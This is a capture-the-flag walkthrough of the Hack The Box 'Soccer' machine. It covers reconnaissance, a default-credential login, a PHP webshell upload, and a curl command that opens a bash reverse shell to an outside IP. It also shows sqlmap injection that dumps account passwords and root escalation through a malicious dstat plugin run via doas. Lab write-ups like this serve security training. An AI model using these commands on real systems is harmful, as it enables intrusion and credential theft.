# [Soccer](https://app.hackthebox.com/machines/soccer)

```bash
nmap -p- --min-rate 10000 10.10.11.194 -Pn
```




After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,9091 10.10.11.194
```




While browsing http port (80), it redirects into `soccer.htb` , that's why we need to add this ip address into '/etc/hosts' file.


Let's do directory enumeration.

```bash
feroxbuster --url http://soccer.htb/
```



From this analysis, I go to page `/tiny`, which confronts with login page.




I searched default credentials for `Tiny File Manager` application.



admin: admin@123

This credentials worked.




From enumeration, I can see that is `PHP` application. As I am admin user, I can upload files, that's why I select php webshell to upload.




Now, I can execute commands by using webshell.




Now, I will add reverse shell payload into here by using `curl` command to browse
```bash
curl http://soccer.htb/tiny/uploads/dr4ks.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/10.10.16.6/1337 0>%261"'
```




I got reverse shell from port (1337).




Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```




From folder `/etc/nginx/sites-enabled`, I can see new subdomain 'soc-player.htb', let's add this into **'/etc/hosts'** file.


I create account here. (Dr4ks: Dr4ks).




I login into my account.




I looked via ZAP proxy and want to inject `id` parameter for Websockets.




From linux machine's `home` folder, I saw one user called `player`.


I will use `sqlmap` tool to try SQL injection payloads.

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3
```






Let's dump database's names via adding `--dbs` option.
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --dbs

```




Let's see tables of `soccer_db` database via adding `--tables` option and `-D {database_name}`.

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -D "soccer_db" --tables
```




Let's dump data for `accounts` table via adding `--dump` option.
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -D "soccer_db"  -T "accounts" --dump
```




From here, I take credentials of '**player**' user.

player: PlayerOftheMatch2022


user.txt




I looked at **SUID** files via this user.
```bash
find / -perm -4000 2>/dev/null
```




The first binary called `doas` is actually the same as `sudo` command.

We can look it's configuration by typing `cat /usr/local/etc/doas.conf`.




Our `player` user has privilege for `dstat` binary.

dstat is a tool for getting system information. Looking at the man page, there’s a section on plugins that says:
 
**Plugins are Python scripts with the name dstat_[plugin name].py.**


Let's create malicious `plugin` via below Python script.
```bash
echo -e 'import os\n\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_dr4ks.py
```

Then run like below by adding `plugin` name as option.
```bash
doas /usr/bin/dstat --dr4ks
```

root.txt

